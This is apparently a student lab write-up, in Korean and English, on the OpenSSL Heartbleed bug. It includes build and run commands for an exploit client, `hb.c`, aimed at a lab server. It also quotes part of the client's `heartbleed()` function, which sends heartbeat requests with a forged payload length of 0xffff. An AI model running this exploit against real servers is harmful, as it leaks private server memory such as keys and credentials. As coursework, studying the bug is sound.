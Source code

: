 
Recompile `hb.c`, run server, and run `hb` (in another window) with type 2.<br>
(You have to remove old "out" file before running `hb`.)

```bash
$ gcc  -L/home/sec11/12181879/openssl/lib  -I/home/sec11/12181879/openssl/include  -o  hb hb.c -lssl -lcrypto -ldl
$ ./serv
$ rm out
$ ./hb -s 165.246.38.151 -p 12500 -f out -t 2
```

![](img/2-1.png)

서버가 `out` 파일에서 "ab"를 에코(echo)한 것을 확인하였다.

### 3-1) Draw the SSL packet generated in [1)](#1-try-hbc) and [2)](#2-modify-hbc) respectively.

1)은 heartbleed attack으로 0xffff bytes를 읽어오고 2)는 설정해준 payload 2 bytes와 padding data 16 bytes, 부가 3 bytes가 서버로부터 오게된다.

### 3-2) Explain why you have different result in [1)](#1-try-hbc) and [2)](#2-modify-hbc) above by analyzing `heartbleed()` function in `hb.c` and `tls1_process_heartbeat()` function in `ssl/t1_lib.c`.

`heartbleed()` function in `hb.c` :

```c
void* heartbleed(connection *c,unsigned int type){
        unsigned char *buf, *p;
        int ret;

        // Edit at 2022 11 16
        // buf = OPENSSL_malloc(1 + 2);
        buf = OPENSSL_malloc(1+2+512);

        if(buf==NULL){
                printf("[ error in malloc()\n");
                exit(0);
        }
        p = buf;
        *p++ = TLS1_HB_REQUEST;
        switch(type){
                case 0:
                        s2n(0x0,p);
                        break;
                case 1:
                        s2n(0xffff,p);
                        break;
                default:
                        printf("[ setting heartbeat payload_length to %u\n",type);
                        s2n(type,p);
                        break;
        }

        // Add at 2022 11 16
        *p++='a'; *p++='b'; // 2 byte payload ("ab")

```
